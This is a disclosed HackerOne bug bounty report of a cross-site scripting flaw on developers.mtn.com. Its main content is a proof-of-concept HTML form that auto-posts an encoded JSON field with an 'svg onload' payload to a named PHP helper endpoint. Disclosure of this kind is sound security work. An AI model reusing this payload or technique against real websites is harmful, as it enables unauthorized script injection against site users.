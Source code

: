 # xss on [developers.mtn.com]

## Report Details
- **Report ID**: 924851
- **URL**: https://hackerone.com/reports/924851
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-15T21:28:33.488Z
- **Disclosed**: 2022-04-19T07:58:39.100Z

## Reporter
- **Username**: pisarenko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
xss on 

`<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://developers.mtn.com/sites/all/themes/mtn/helpers/faq-helpful.php" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;title&quot;&#58;&quot;Do&#32;you&#32;have&#32;sample&#32;or&#32;reference&#32;applications&#32;that&#32;could&#32;demonstrate&#32;some&#32;API&#32;calls&#32;for&#32;me&#63;&quot;&#44;&quot;helpful&quot;&#58;&quot;false&lt;svg&#32;onload" value="alert&#40;1&#41;&gt;&quot;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>`

{F908897}

## Impact

POC 
{F908895}

{F908896}

## Attachments
- vse.html
- 1.png
- 2.png
